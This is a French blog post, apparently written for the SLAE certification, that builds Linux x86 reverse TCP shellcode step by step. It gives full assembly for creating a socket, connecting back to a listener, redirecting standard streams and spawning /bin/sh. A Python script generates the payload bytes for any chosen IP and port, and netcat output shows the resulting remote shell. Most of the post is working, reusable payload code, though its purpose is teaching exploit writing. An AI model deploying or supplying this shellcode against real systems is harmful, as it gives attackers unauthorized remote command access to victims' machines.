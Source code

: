 # Assignment 2 #

Dans le cadre du second exercice, il est demande de réaliser un shellcode permettant d'obtenir un shell distant.

L'idée ici est dans un premier temps de créer un socket puis d'établir une connexion en indiquant une adresse IP ainsi qu'un port. Les sorties standard stdin, stdout et stderr sont redirigées afin de pouvoir être utilisées une fois la connexion établie par un shell distant. 

## Création d'un socket ##
La principale référence bibliographique est la documentation des appels systèmes http://man7.org/linux/man-pages/man2/socketcall.2.html. L'appel socketcall est utilisé pour définir les actions sur les sockets en fonction du champ call. La valeur 1 indique que c'est la création d'un socket qui nous interesse. Il s'agit ici d'indiquer un domaine, un type et un protocol. Nous prenons le protocol IPPROTO_IP = 0, un type égal à SOCK_STREAM avec la valeur 1 et enfin le domaine AF_INET avec la valeur 2.

```c
	xor ebx, ebx 			; ebx = 0
	mul ebx				; eax=ebx=edx = 0
	push ebx			; push 0 onto the stack
	inc ebx				; ebx = 1 = SYS_SOCKET = socket()
	push ebx			; push 1 onto the stack
	push byte 0x2			; push 2 onto the stack
	mov ecx, esp			; set ecx to the address of our args
	mov al, 0x66			; syscall socketcall
	int 0x80			; make the syscall socketcall(socket(2,1,0))
```

## Création de la connexion ##
Nous procédons de la même manière pour créer la connexion en indiquant l'adresse IP et le port logique. Nous nous sommes appuyé sur la structure sockaddr afin de connaître les différents élément necessaires.

```c
	push 0x0101017f			; Construction de socketaddr : @Ip 127.1.1.1
	push dword 0x5c11 		; Port 4444
	inc ebx
    	push word bx     		; Ajout de AF_INET et pour eviter d'avoir un null byte
    	mov ecx, esp	
	push 0x10			; addrlen
	push ecx			; struct *addr
	push edx			; sockfd
	mov bl, 0x3			; SYS_CONNECT = connect()
	mov ecx, esp	
	mov al, 0x66
	int 0x80
```

## Redirection ##

Ici, nous redirigeons les 3 sorties vers le socktfd via l'appel système dup2.

```c
	xor ecx, ecx				; set ecx to 0
	mov cl, 0x2				; ecx = 2
_:
	mov al, 0x3f				; syscall dup2
	int 0x80
	dec ecx
	jns _

```

## Exécution du shell ##
nous allons pour cela utiliser execve, int execve(const char *filename, char *const argv[], char *const envp[]) afin de lancer un shell.
Il sera de la forme execve("/bin/sh", NULL, NULL).
Puis enfin, le shell(/bin/bash) est exécuté une fois la connexion établie.

```c
	xor ecx,ecx				; ecx = 0
	mul ecx					; eax = edx =ecx = 0
	push eax				; push 0 onto the stack
	push 0x68732f2f				; push //bin/sh
	push 0x6e69622f
	mov ebx, esp				; save esp into ebx
	mov al, 0xb		
	int 0x80				; make the syscall execve("/bin/sh", NULL, NULL)
```



## Code complet ##

```c
; SLAE - Assignment 2: Shell_reverse_Tcp shellcode (Linux/x86)
; Author: Alain Menelet 
; StudentID - SLAE-3763
; Tested on Ubuntu 16.14.03 LTS
; https://github.com/xophidia/Shellcode/blob/master/compile.sh
; Taille : 74 bytes



global _start

section .text

_start:

	; Création du socket
	; http://man7.org/linux/man-pages/man2/socketcall.2.html
	; int socketcall(int call, unsigned long *args)
	; int socket(int domain, int type, int protocol)
	
	; for domain we use AF_INET(0x2)
	; for type SOCK_STREAM(0x1)
	; for protocol IP (0x0)	

	xor ebx, ebx 			; ebx = 0
	mul ebx				; eax=ebx=edx = 0
	push ebx			; push 0 onto the stack
	inc ebx				; ebx = 1
	push ebx			; push 1 onto the stack
	push byte 0x2			; push 2 onto the stack
	mov ecx, esp			; set ecx to the address of our args
	mov al, 0x66			; syscall socketcall
	int 0x80			; make the syscall socketcall(socket(2,1,0))

	xchg edx, eax			; we need to save the result of socket function for later usage

	
	; création de la connexion
	; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen)
	; we save sockfd just before
	; sockaddr structure

	push 0x0101017f			; @Ip 127.0.0.1
	push dword 0x5c11 		; Port 4444
	inc ebx
    	push word bx     		; Ajout de AF_INET et pour eviter d'avoir un null byte
    	mov ecx, esp	
	push 0x10			; addrlen
	push ecx			; struct *addr
	push edx			; sockfd
	mov bl, 0x3			; connect call
	mov ecx, esp	
	mov al, 0x66
	int 0x80

	
	; redirection des flux via dup
	; nous allons rediriger les sorties standards vers notre socket
	; int dup2(int oldfd, int newfd);

	xor ecx, ecx
	mov cl, 0x2				; ecx = 2
_:
	mov al, 0x3f				; syscall dup2
	int 0x80
	dec ecx
	jns _
	

	; execve
	; execute un shell /bin/bash des la connexion réussie

	xor ecx,ecx				; ecx = 0
	mul ecx					; eax = edx =ecx = 0
	push eax				; push 0 onto the stack
	push 0x68732f2f				; push //bin/sh
	push 0x6e69622f
	mov ebx, esp				; save esp into ebx
	mov al, 0xb		
	int 0x80				; make the syscall execve("/bin/sh", NULL, NULL)

```

## Exécution ##

Nous utilisons comme dans le premier exercice le fichier test_shellcode.c avec les mêmes options de compilation.

Sur le premier terminal:
```
./test_shellcode
```

Sur le second terminal: 
```c
nc -l -p 4444 -v
pwd
/home/xophidia
```

## Améliorer la saisie de l'adresse IP et du port ##

Pour cette partie, nous utilisons un script python.

```python
#!/usr/bin/env python

import argparse
import struct

def main():
    parser = argparse.ArgumentParser(description="Reverse TCP Shell")
    parser.add_argument('--address', dest="addressIp", default=None, type= str, help="Put your address ip", required=True)
    parser.add_argument('--port', dest="port", default=4444, type=int, help="Put the port", required=True)
    args = parser.parse_args()

    ip = args.addressIp.split('.')
    port = args.port

    shellcode = ("\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x68"+
    struct.pack("!4B",int(ip[0]), int(ip[1]),int(ip[2]), int(ip[3]))+"\x66\x68"+struct.pack("!H",port)+"\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\xb3\x03\x89\xe1\xb0\x66\xcd\x80\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80");


    print '"' + ''.join('\\x%02x' % ord(c) for c in shellcode) + '";'

if __name__=='__main__':
    main()

```

### Test ###

```c
./createShellcode.py --address 127.1.1.1 --port 1234
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x68\x7f\x01\x01\x01\x66\x68\x04\xd2\x43\x66\x53\x89\xe1\x6a\x10
\x51\x52\xb3\x03\x89\xe1\xb0\x66\xcd\x80\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\x89\xca\x52\x68\x2f\x2f\x73\x68\x68
\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";
````

Nous recompilons comme lors de l'exemple précédent puis testons le tout.

```c
nc -l 127.1.1.1 -p 1234 -v
Listening on [127.1.1.1] (family 0, port 1234)
Connection from [127.0.0.1] port 1234 [tcp/*] accepted (family 2, sport 40102)
id
uid=1000(xophidia) gid=1000(xophidia) groups=1000(xophidia),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

StudentID - SLAE-3763